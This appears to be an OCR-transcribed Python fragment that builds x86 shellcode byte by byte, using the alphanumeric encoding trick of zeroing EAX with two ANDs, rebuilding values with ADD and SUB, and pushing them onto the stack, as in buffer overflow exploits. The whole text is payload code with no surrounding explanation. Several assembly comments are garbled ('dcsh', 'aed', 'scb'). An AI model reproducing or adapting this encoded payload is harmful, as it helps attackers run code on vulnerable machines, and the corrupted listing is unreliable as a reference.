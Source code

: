 ```python
shellcode += "\x05\x12\x14\x13\x03" ## add  eax, 0x03131412
shellcode += "\x05\x01\x14\x12\x04" ## add  eax, 0x04121401
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x64\x36\x66\x73" ## add  eax, 0x73663664
shellcode += "\x05\x54\x36\x55\x62" ## add  eax, 0x62553654
shellcode += "\x05\x63\x24\x43\x52" ## add  eax, 0x52432463
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x15\x02\x45\x22" ## add  eax, 0x22450215
shellcode += "\x05\x04\x01\x45\x11" ## add  eax, 0x11450104
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x61\x57\x52\x76" ## add  eax, 0x76525761
shellcode += "\x05\x61\x46\x42\x65" ## add  eax, 0x65424661
shellcode += "\x05\x41\x45\x42\x53" ## add  eax, 0x53424541
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x15\x16\x31\x51" ## add  eax, 0x51311615
shellcode += "\x05\x05\x16\x30\x50" ## add  eax, 0x50301605
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x32\x65\x31" ## add  eax, 0x31653217
shellcode += "\x05\x26\x31\x54\x32" ## add  eax, 0x32543126
shellcode += "\x05\x15\x22\x44\x21" ## add  eax, 0x21442215
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x31\x76\x70\x06" ## add  eax, 0x06707631
shellcode += "\x05\x31\x65\x60\x06" ## add  eax, 0x06606531
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x26\x76\x61\x67" ## add  eax, 0x67617626
shellcode += "\x05\x25\x65\x62\x66" ## add  eax, 0x66626525
shellcode += "\x05\x23\x53\x41\x45" ## add  eax, 0x45415323
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x25\x65\x37\x22" ## add  eax, 0x22376525
shellcode += "\x05\x14\x65\x47\x21" ## add  eax, 0x21476514
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x43\x34\x44\x72" ## add  eax, 0x72443443
shellcode += "\x05\x42\x24\x44\x62" ## add  eax, 0x62442442
shellcode += "\x05\x42\x24\x44\x52" ## add  eax, 0x52442442
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x64\x41\x12\x67" ## add  eax, 0x67124164
shellcode += "\x05\x64\x32\x21\x56" ## add  eax, 0x56213264
shellcode += "\x05\x44\x31\x12\x35" ## add  eax, 0x35123144
```
